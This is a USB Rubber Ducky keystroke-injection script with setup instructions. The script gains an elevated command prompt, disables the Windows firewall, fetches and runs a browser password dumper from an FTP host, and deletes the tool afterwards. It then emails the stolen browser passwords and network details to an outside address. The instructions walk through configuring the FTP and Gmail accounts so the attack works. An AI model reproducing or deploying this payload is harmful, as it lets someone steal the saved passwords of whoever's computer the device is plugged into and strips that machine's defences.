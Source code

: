 DELAY 800
GUI
DELAY 800
STRING Command Prompt
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 1500
STRING mkdir C:\DuckyReport
ENTER
STRING netsh advfirewall set allprofiles state off
ENTER
STRING ipconfig > C:\DuckyReport\ipconfig.txt
ENTER
STRING cd C:\DuckyReport
ENTER
STRING ftp
ENTER
STRING open ftp.drivehq.com
ENTER
DELAY 2500
STRING YourDriveHQUsername
ENTER
DELAY 2500
STRING YourDriveHQPassword
ENTER
DELAY 2500
STRING get BPD.exe
ENTER
DELAY 8000
STRING close
ENTER
DELAY 800
STRING quit
ENTER
DELAY 800
STRING BPD.exe -f BPD.txt
ENTER
DELAY 2500
STRING del BPD.exe
ENTER
DELAY 800
STRING Exit
ENTER
DELAY 800
GUI
DELAY 1000
STRING Powershell
ENTER
DELAY 1000
STRING $emailSmtpServer = "smtp.gmail.com";$emailSmtpServerPort = "587";$emailSmtpUser = "yourgmailusername@gmail.com";$emailSmtpPass = "YourGmailPassword";$emailMessage = New-Object System.Net.Mail.MailMessage;$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";$emailMessage.To.Add("EmailToSendTo@example.com");$emailMessage.Body = "See attachments";$SMTPClient = New-Object System.Net.Mail.SmtpClient( $emailSmtpServer , $emailSmtpServerPort );$SMTPClient.EnableSsl = $true;$SMTPClient.Credentials = New-Object System.Net.NetworkCredential( $emailSmtpUser , $emailSmtpPass );$attachment = "C:\DuckyReport\BPD.txt";$emailMessage.Attachments.Add($attachment);$attachment2 = "C:\DuckyReport\ipconfig.txt";$emailMessage.Attachments.Add($attachment2);$SMTPClient.Send($emailMessage);
ENTER
DELAY 5000
STRING exit
ENTER

# Instructions:
1. Create an free account at [https://www.drivehq.com/features/ftp.aspx](https://www.drivehq.com/features/ftp.aspx)
2. Download BPD.zip and extract it from [https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing](https://drive.google.com/file/d/0B8k1o3N-X4vZVjNwZm5ac2hZNFE/view?usp=sharing)
3. Go to your account and upload BPD.exe to the root directory.
4. In the script please change the following to your information:
    On line 22 ```STRING YourDriveHQUsername``` change ___YourDriveHQUsername___ to your username for www.drivehq.com

    On line 25 ```STRING YourDriveHQPassword``` change ___YourDriveHQPassword___ to your password for www.drivehq.com

    On line 51 ```$emailSmtpUser = "yourgmailusername@gmail.com";``` This the account email used to send the email with 
        the passwords list. It is only set to use a gmail address. Change ___yourgmailusername@gmail.com___ to your email. 
        Leave the quotation marks on both sides there.

    On line 51 ```$emailSmtpPass = "YourGmailPassword";``` change ___YourGmailPassword___ to the password for your account 
        but leave the quotation marks on both sides there.

    On line 51 ```$emailMessage.From = "DuckyScript Browser Passwords <YourEmailAddressHere@gmail.com>";``` change 
        ___YourEmailAddressHere@gmail.com___ to your email address. Please leave the brackets on either side of the email 
        address.
    On line 51 ```$emailMessage.To.Add("EmailToSendTo@example.com");``` change ___EmailToSendTo@example.com___ to whatever 
        email you are sending the files to. Leave the quotation marks on both sides there.

5. Load the script on your USB RubberDucky and you are ready to do some reconnaissance.